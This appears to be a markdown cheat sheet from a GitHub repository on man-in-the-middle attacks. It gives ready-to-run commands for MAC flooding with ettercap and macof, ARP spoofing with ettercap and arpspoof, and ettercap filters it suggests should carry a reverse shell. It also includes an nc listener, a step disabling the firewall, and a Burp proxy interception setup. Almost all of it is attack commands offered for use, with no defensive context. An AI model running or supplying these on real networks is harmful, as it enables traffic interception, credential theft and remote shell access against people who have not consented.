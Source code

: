 # Man in the Middle Attack (MitM)

#### Tools: Ettercap, macof, ip, nmap, ping, Burpsuite

### Requirements: Root the machine that has access to more machines on its network, then scan with a port scanner (nmap)

## MAC FLODDING

**1)**

```
ettercap -T -i INTERFACE -P rand_flood -q -w /tmp/tcpdump3.pcap
```

**2)**

```
macof -i INTERFACE
```

## ARP SPOOFING



```
ettercap -T -i INTERFACE_2 -M arp
```

## MAN IN THE MIDDLE MANIPULATION

**1) Create a filter (preferably a reverse shell)**

**2) Compile it with etterfilter**



```
etterfilter example.ecf -o example.ef
```

**3)**

```
nc -lvnp PORT &
```

**4)**

```
ufw disable
```

**5)**

```
ettercap -T -i INTERFACE_2 -M arp -F example.ef
```

## MITM EXAMPLE 2

**1)**

```
sudo arpspoof -i INTERFACE -t TARGET_MACHINE DEFAULT_GATEWAY
```

**2)**

```
sudo wireshark (Capture live packets)
```

**3)**

```
Filter on wireshark on what traffic you want to capture
```

### TIP: Attacker and target should be connected in the same network for this to work

## MITM EXAMPLE 3

### Requirements: Webapp uses self-signed certificate instead form a trusted CA

#### Steps:

**1) Configure Burp by going to:**

Select Proxy -> Toggle Intercept on -> Proxy Settings

**2) Now, on Proxy settings do:**

Proxy listeners -> Add button -> Specific Address is our attacking machine and bind port is 8080 -> OK to apply configs

**3) Set our own machine as a gateway for the network we want to target**

```
sudo echo "OUR_ATTACK_IP gateway_dns_name" >> /etc/hosts
```

**4) And now, wait for profit, we are now MitM to sniff for traffic from other machines in the network**

